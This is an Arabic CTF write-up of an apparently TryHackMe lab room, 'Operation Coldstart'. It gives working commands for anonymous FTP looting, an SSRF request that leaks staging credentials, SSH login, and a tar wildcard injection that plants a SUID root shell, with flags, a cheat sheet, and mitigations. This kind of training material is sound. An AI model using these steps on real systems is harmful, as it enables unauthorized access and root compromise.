

# توثيق غرفة: العملية: البداية الباردة (Operation Coldstart)

---

## 1. الترويسة الموحدة ومعلومات الغرفة (Metadata Header)
- **اسم الغرفة (Room Title):** Operation Coldstart (العملية: البداية الباردة)
- **المسار التعليمي (Path):** Jr Penetration Tester (مخترق التطبيقات والمواقع المبتدئ)
- **الموديول (Module):** Module 18: Jr Pentester Challenges (تحديات المبتدئ العملية)
- **الترتيب داخل الموديول:** Room 05 of 08
- **مستوى الصعوبة (Difficulty):** Easy (سهل)
- **نوع الغرفة (Type):** CTF Challenge / Vulnerable Machine
- **رابط الغرفة الرسمي:** [https://tryhackme.com/room/operationcoldstart](https://tryhackme.com/room/operationcoldstart)
- **حالة الإنجاز للمستخدم:** مكتمل بنسبة 100% (Verified 100% Complete)

---

## 2. الملخص التنفيذي وسياق السيناريو (Executive Summary & Scenario Context)
تشتبه شركة التقنية الناشئة **Volt Labs** في أن خادم التجهيز والاختبار القديم (Staging Server) التابع لها قد تم إهماله ونسيانه في بيئة العمل، مما أدى إلى تراكم الثغرات الأمنية به وتحوله إلى نقطة ضعف حرجة تهدد أمن الشركة. قامت مسؤولة العمليات "مارا" بتكليفنا بتنفيذ اختبار اختراق كامل يحاكي هجوماً واقعياً يمر بكافة مراحل سلسلة القتل السيبراني (Cyber Kill Chain): بدءاً من الاستطلاع الخارجي واكتشاف الخدمات المعرضة، مروراً بتحليل الشيفرة المصدرية المسربة عبر FTP، واستغلال ثغرة SSRF لاختراق الضوابط الداخلية، ثم تسجيل الدخول عبر SSH كـ `webdev`، وانتهاءً بتصعيد الامتيازات إلى المستخدم الجذري `root` عبر هجوم حقن المعاملات في أداة `tar` (Tar Wildcard Injection).

---

## 3. الأهداف التعليمية والمفاهيم النظرية (Learning Objectives & Theoretical Concepts)
1. **استطلاع خدمات نقل الملفات غير الموثقة:** فهم مخاطر تفعيل وضع الدخول المجهول (Anonymous Login) في خوادم FTP.
2. **مراجعة الشيفرة المصدرية (Source Code Review):** فحص تطبيقات بايثون وFlask لاكتشاف الثغرات المنطقية ومعالجة المدخلات غير الآمنة.
3. **ثغرة تزوير الطلبات من جانب الخادم (SSRF - Server-Side Request Forgery):** فهم كيفية استغلال طلبات HTTP التي يطلقها الخادم للوصول إلى شبكات وخدمات داخلية محجوبة عن العالم الخارجي.
4. **تسريب بيانات الاعتماد (Credential Leakage):** خطورة تخزين كلمات المرور الحساسة ضمن مذكرات المطورين أو ملفات الإعدادات.
5. **هجمات توسيع المعاملات في أنظمة لينكس (Unix Wildcard Injection):** دراسة كيفية قيام سطر الأوامر (Bash Globbing) بتوسيع الرمز `*` وتفسير الملفات كخيارات تشغيلية لبرنامج `tar` لتنفيذ أوامر تعسفية بصلاحيات الرووت.

---

## 4. البنية التقنية ومخطط بيئة التحدي (Technical Architecture & Lab Diagram)



---

## 5. مصفوفة الثغرات والتصنيفات القياسية (Vulnerability Matrix & CWE Mappings)

| الثغرة الأمنية | المكون المتأثر | التصنيف القياسي (CWE) | تصنيف ميتري (MITRE ATT&CK) | مستوى الخطورة (Severity) |
|----------------|----------------|-----------------------|----------------------------|--------------------------|
| Anonymous FTP Access | vsftpd (Port 21) | CWE-306: Missing Authentication | T1190 / T1592 | Medium (متوسط) |
| Server-Side Request Forgery (SSRF) | Flask `/preview` (Port 80) | CWE-918: SSRF | T1190: Exploit Public-Facing App | High (عالٍ) |
| Hardcoded Sensitive Credentials | `/admin/notes` internal endpoint | CWE-798: Hard-coded Credentials | T1552: Unsecured Credentials | High (عالٍ) |
| Tar Command Argument Injection | `/opt/scripts/backup.sh` | CWE-88: Argument Injection | T1059.004 / T1053.003 | Critical (حرج) |

---

## 6. مرحلة الاستطلاع وفحص الخدمات (Reconnaissance & Service Enumeration)
تم تشغيل فحص منافذ متقدم لتحديد المنافذ المفتوحة وبصمات الخدمات:
```bash
nmap -sC -sV -p- -T4 --min-rate 1000 10.10.x.x -oN nmap_coldstart.txt
```
**المخرجات التفصيلية للفحص:**
- **Port 21/tcp:** متاح ويدعم الدخول المجهول باسم المستخدم `anonymous`.
- **Port 22/tcp:** خدمة OpenSSH للتحكم عن بُعد.
- **Port 80/tcp:** خادم ويب يستضيف أداة تفاعلية لمعاينة الروابط باسم "URL Preview - Volt Labs".

---

## 7. مرحلة استخراج الشيفرة المصدرية وتحليلها (FTP Exploitation & Source Audit)
عبر الاتصال ببروتوكول FTP بالوضع المجهول، تم العثور على أرشيف يحوي النسخة الاحتياطية للتطبيق:
```bash
ftp 10.10.x.x
# User: anonymous
# Pass: guest
ftp> binary
ftp> get backup.tar.gz
ftp> exit
```
بفك الأرشيف تم الحصول على الملف `app.py`. أظهر الفحص المكتبي (Static Code Analysis) أن الدالة المسؤولة عن معالجة طلبات الـ POST في المسار `/preview` تتلقى رابطاً وتقوم بجلب محتواه باستخدام مكتبة `requests` دون تطبيق أي قيود على عناوين الشبكة المحلية أو الخاصة، مما يؤكد قابلية استغلال ثغرة SSRF.

---

## 8. استغلال ثغرة SSRF واكتشاف بيانات الاعتماد (SSRF Exploitation & Credential Harvesting)
تم إرسال طلب POST معدل يطلب جلب الملاحظات الإدارية المخزنة على الخادم المحلي:
```bash
curl -X POST http://10.10.x.x/preview -d "url=http://kestrel.thm/admin/notes"
```
استجابت واجهة المعاينة بمحتوى صفحة الملاحظات الداخلية:
```text
=== Volt Labs Internal Admin Staging Notes ===
Developer account for staging maintenance:
Username: webdev
Password: V0ltLabs#summer
```

---

## 9. الوصول الأولي واستخراج علم المستخدم (Initial Access & User Flag)
تم تسجيل الدخول بنجاح عبر بروتوكول SSH باستخدام بيانات الاعتماد المستخرجة:
```bash
ssh webdev@10.10.x.x
# Password: V0ltLabs#summer
```
عقب فتح الجلسة، تم التحقق من هوية المستخدم وقراءة علم المستخدم:
```bash
webdev@coldstart:~$ id
uid=1001(webdev) gid=1001(webdev) groups=1001(webdev)

webdev@coldstart:~$ cat /home/webdev/user.txt
THM{96dc7bd50d2fb98fcece01560788b5ab}
```

---

## 10. تصعيد الامتيازات المحلي (Local Privilege Escalation & Root Flag)
1. **اكتشاف مهمة الـ Cron:**
   بفحص المهام المجدولة في `/etc/crontab`، تبين وجود مهمة تنفذ الملف `/opt/scripts/backup.sh` كل دقيقة بصلاحيات root.
2. **فحص سكريبت النسخ الاحتياطي:**
   يحوي السكريبت الأمر:
   ```bash
   cd /var/www/html/uploads
   tar -cf /var/backups/uploads.tar *
   ```
3. **تطبيق هجوم Tar Wildcard Injection:**
   يمتلك المستخدم `webdev` صلاحية كتابة كاملة في مجلد `/var/www/html/uploads`. تم إنشاء حمولة تستغل خيارات `--checkpoint` و `--checkpoint-action`:
   ```bash
   cd /var/www/html/uploads
   echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' > payload.sh
   chmod +x payload.sh
   touch -- "--checkpoint=1"
   touch -- "--checkpoint-action=exec=sh payload.sh"
   ```
4. **الحصول على صلاحيات الرووت وقراءة العلم:**
   بمجرد تشغيل مهمة الـ Cron، تم إنشاء الملف `/tmp/rootbash` بصلاحيات SUID root:
   ```bash
   /tmp/rootbash -p
   id
   # uid=1001(webdev) gid=1001(webdev) euid=0(root) egid=0(root)
   cat /root/flag.txt
   THM{e6ee84a483d67ade06936fcfd1433e8a}
   ```

---

## 11. الدليل الإرشادي للأوامر وأدوات الهجوم (Command Cheat Sheet)

```bash
# 1. الاستطلاع
nmap -sC -sV -p- -T4 --min-rate 1000 <TARGET_IP>

# 2. تنزيل النسخ الاحتياطية من FTP
ftp <TARGET_IP>
# user: anonymous | password: [Enter]
get backup.tar.gz

# 3. استغلال ثغرة SSRF
curl -s -X POST http://<TARGET_IP>/preview -d "url=http://kestrel.thm/admin/notes"

# 4. الدخول عبر SSH
ssh webdev@<TARGET_IP>

# 5. تصعيد الامتيازات عبر Tar Wildcard
cd /var/www/html/uploads
echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' > payload.sh
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh payload.sh"
/tmp/rootbash -p
```

---

## 12. إجراءات المعالجة والتحصين الدفاعي (Mitigation & Hardening Strategies)
1. **إغلاق خدمات نقل الملفات غير المأمونة:** تعطيل الدخول المجهول (`anonymous_enable=NO`) وحجب منفذ 21 تماماً واستبداله بـ SFTP المقيد.
2. **تحصين تطبيقات الويب ضد ثغرات SSRF:**
   - تطبيق قائمة بيضاء بالنطاقات المعتمدة (Domain Allowlist).
   - حظر طلب عناوين الـ Localhost (`127.0.0.1`, `::1`) وعناوين الـ Private IPs (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`).
   - التحقق من عنوان الـ IP النهائي بعد حل DNS لمنع هجمات DNS Rebinding.
3. **حماية نصوص الشل التشغيلية من Argument Injection:**
   - إنهاء معالجة الخيارات بإضافة علامة `--` قبل المعامل العام (مثل `tar -cf backup.tar -- *`).
   - تجنب استخدام Wildcards مع الملفات القابلة للتعديل من قبل مستخدمين ذوي امتيازات منخفضة.
   - استخدام مسارات ملفات صريحة أو أوامر مثل `find -print0 | xargs -0`.

---

## 13. الأسئلة الشائعة وتصحيح الأخطاء (Troubleshooting & FAQs)
- **سؤال: قمت بإنشاء ملفات `--checkpoint` ولكن لم يتم تشغيل الـ SUID، ما السبب؟**
  - **الجواب:** تأكد من أن السكريبت `payload.sh` يمتلك صلاحيات التنفيذ (`chmod +x payload.sh`)، وتأكد من إنشاء أسماء الملفات باستخدام `touch -- "--checkpoint=1"` (استخدام `--` ضروري لمنع أمر `touch` نفسه من اعتبارها خيارات خاصة به).
- **سؤال: لماذا لم يعمل طلب SSRF عند استهداف `127.0.0.1`؟**
  - **الجواب:** في بعض بيئات الاستضافة قد يكون خادم الويب الداخلي مرتبطاً باسم مضيف محدد في `/etc/hosts` مثل `kestrel.thm` أو عبر Virtual Host، لذا ينبغي تجربة كل من `localhost`, `127.0.0.1`, و `kestrel.thm`.

---

## 14. المراجع ومصادر التعلم الإضافية (References & Further Reading)
- [TryHackMe Room: Operation Coldstart](https://tryhackme.com/room/operationcoldstart)
- [CWE-918: Server-Side Request Forgery (SSRF)](https://cwe.mitre.org/data/definitions/918.html)
- [DefenseCode: Unix Wildcards Gone Wild](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt)
- [GTFOBins: Tar Command Execution](https://gtfobins.github.io/gtfobins/tar/)
- [مستند المهام التفصيلي (TASK-01.md)](file:///e:/THM-JR-PENETRATION-TESTER/18-JR-PENTESTER-CHALLENGES/05-OPERATION-COLDSTART/TASKS/TASK-01.md)
